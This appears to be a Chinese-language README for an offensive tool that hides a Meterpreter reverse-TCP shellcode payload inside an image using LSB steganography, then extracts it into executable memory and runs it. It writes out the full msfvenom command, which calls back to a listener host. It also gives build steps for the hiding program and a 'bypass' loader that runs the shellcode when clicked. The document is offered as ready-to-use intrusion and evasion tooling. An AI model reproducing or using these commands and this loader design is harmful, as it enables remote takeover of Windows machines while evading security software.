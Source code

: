 ## 信息隐藏 
1.msfvenom生成bin文件：
``` 
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.190.89.125 lport=1125 -f bin --arch x64 --platform windows -o test.bin
```
2.将图片RGB转为YCbCr值，获取到3个二维数组 

3.对Y平面数组采用lsb隐写 

4.将YCbCr转为RGB并生成图片 

## 信息读取 
1.将图片RGB转为YCbCr值，获取到3个二维数组 

2.读取Y平面的LSB获取payload 

## 执行payload 

1.分配可读可写可执行内存 

2.写入payload到内存 

3.跳转执行

# 使用方式：
1.msfvenom生成一个payload，必须是bin文件 
``` 
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.190.89.125 lport=1125 -f bin --arch x64 --platform windows -o test.bin
```
2.cargo build --release打包img程序，用得到的隐写程序img.exe将bin文件隐写到jpg文件 
``` 
img.exe hide your_img.jpg test.bin
```
3.cargo build --release打包bypass程序，记得把output.png放到bypass/src/resources目录下，得到bypass.exe 

4.点击bypass.exe即触发执行shellcode
